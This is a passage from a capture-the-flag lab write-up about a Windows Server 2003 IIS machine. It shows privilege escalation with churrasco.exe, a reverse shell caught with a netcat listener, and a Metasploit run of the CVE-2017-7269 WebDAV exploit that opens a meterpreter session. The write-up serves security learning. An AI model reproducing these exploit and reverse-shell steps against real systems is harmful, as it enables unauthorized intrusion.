 Using churrasco.exe, we realize that the user is now elevated to system adminstrator.

```
C:\wmpub>.\churrasco.exe "whoami"
.\churrasco.exe "whoami"
nt authority\system
```

Lastly, all we have to do is to spawn a reverse shell onto our listener.

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000
listening on [any] 3000 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.10.14] 1036
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system
```

### Obtaining user flag

```
C:\Documents and Settings\Harry\Desktop>type user.txt
type user.txt
<Redacted user flag>
```
### Obtaining root flag

```
C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
<Redacted root flag>
```

## Post Exploitation
### Using Metasploit

Firstly, we will try to create a reverse shell using the metasploit module of CVE-2017-7269. To do so, we will be using ```windows/iis/iis_webdav_scstoragepathfromurl``` in metasploit, which will then create a meterpreter session.

```
msf6 > use exploit/windows/iis/iis_webdav_scstoragepathfromurl
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set RHOSTS 10.10.10.14
RHOSTS => 10.10.10.14
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set RPORT 80
RPORT => 80
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set LHOST 10.10.16.8
LHOST => 10.10.16.8
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set LPORT 4000
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > exploit

[*] Started reverse TCP handler on 10.10.16.8:4000 
[*] Trying path length 3 to 60 ...
[*] Sending stage (175174 bytes) to 10.10.10.14
[*] Meterpreter session 1 opened (10.10.16.8:4000 -> 10.10.10.14:1050) at 2022-01-10 06:17:46 -0500
```
